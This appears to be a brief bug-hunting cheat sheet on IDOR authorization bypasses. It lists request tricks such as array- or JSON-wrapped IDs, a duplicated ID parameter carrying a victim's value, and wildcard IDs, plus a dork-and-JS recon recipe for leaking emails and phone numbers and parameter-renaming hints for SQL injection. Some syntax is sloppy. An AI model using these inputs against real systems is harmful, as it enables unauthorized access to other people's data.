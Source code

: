 # idor
Authorization bypasses tricks:✅
🔸 Wrap ID with an array {“id”:123} --> {“id”:[123]}
🔸 JSON wrap {“id”:123} --> {“id”:{“id”:123}}
🔸 Send ID twice URL?id=<LEGIT>&id=<VICTIM>
🔸 Send wildcard {"user_id":"*"}


1) google dork site:domain login
2) visit the home page
3) see the js file in the site
4) idor boom! leak email and phone

We all try to change the valuse of parameters to find vulnerabilities , but did you know that you can also try 
to change the name of the parameter ?
ex: ?parameter==123  ==> 200 ok
?parameter[]==123 ==> Bypass Prtotection    && ?parameters[id']==123 ==> sql injecton 
